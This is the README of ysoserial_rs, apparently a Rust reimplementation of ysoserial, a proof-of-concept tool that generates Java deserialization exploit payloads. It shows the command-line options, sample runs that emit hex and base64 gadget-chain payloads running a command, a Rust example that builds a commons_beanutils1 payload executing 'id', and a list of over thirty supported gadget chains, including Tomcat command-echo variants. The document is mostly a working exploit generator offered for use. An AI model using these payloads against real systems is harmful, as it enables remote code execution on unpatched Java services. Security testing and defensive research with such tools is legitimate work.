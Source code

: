 # ysoserial_rs

- [ysoserial](https://github.com/frohoff/ysoserial)  implemented by rust

> A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

## using

```shell
Usage: ysoserial [-p <payload>] [-c <command>] [--url <url>] [--echo-name <echo-name>] [--command-name <command-name>] [-o <output>] [-f <format>] [-l]

ysoserial_rs

Options:
  -p, --payload     select a payload
  -c, --command     command to execute
  --url             url to request dns
  --echo-name       tomcat echo request header name
  --command-name    tomcat command request header name
  -o, --output      save payload to file
  -f, --format      format to hex or base64
  -l, --list        list all payload
  --help            display usage information

```

### format

- hex

```shell
➜  ysoserial_rs git:(main) ✗ ysoserial -p cc1 -c whomai -f hex
aced00057372003273756e2e7265666c6563742e616e6e6f746174696f6e2e416e6e6f746174696f6e496e766f636174696f...
```

- base64

```shell
➜  ysoserial_rs git:(main) ✗ ysoserial -p cc1 -c whomai -f base64
rO0ABXNyADJzdW4ucmVmbGVjdC5hbm5vdGF0aW9uLkFubm90YXRpb25JbnZvY2F0aW9uSGFuZGxlclXK9Q8Vy36lAgACTAAMbWVtYm...
```

### output

```shell
➜  ysoserial_rs git:(main) ✗ ysoserial -p cc1 -c whomai -o cc1.ser
写入文件:cc1.ser,payload大小:1395
➜  ysoserial_rs git:(main) ✗ cat cc1.ser|xxd -ps
aced00057372003273756e2e7265666c6563742e616e6e6f746174696f6e
2e416e6e6f746174696f6e496e766f636174696f6e48616e646c657255ca
...
```

## examples

```shell
cargo run --example examples
```

- Please refer to the examples directory for details

```rust
use std::fs::File;
use std::io;
use std::io::Write;
use ysoserial_rs::get_commons_beanutils1;

fn main() -> Result<(), io::Error> {
    let mut file = File::create("commons_beanutils1.ser")?;
    file.write_all(&get_commons_beanutils1("id"))?;
    Ok(())
}
```

## support list

- [x] bs1
- [x] cc1
- [x] cc2
- [x] cc3
- [x] cc4
- [x] cc5
- [x] cc6
- [x] cc7
- [x] cck1
- [x] cck2
- [x] cck3
- [x] cck4
- [x] clojure
- [x] groovy1
- [x] hibernate1
- [x] hibernate2
- [x] javassist_weld1
- [x] jboss_interceptors1
- [x] jdk7u21
- [x] jdk8u20
- [x] json1
- [x] mozilla_rhino1
- [x] mozilla_rhino2
- [x] myfaces1
- [x] rome
- [x] spring1
- [x] spring2
- [x] cck1_tomcat_echo
- [x] cck2_tomcat_echo
- [x] url_dns
- [x] c3p0
- [x] vaadin1
- [x] shiro_spc
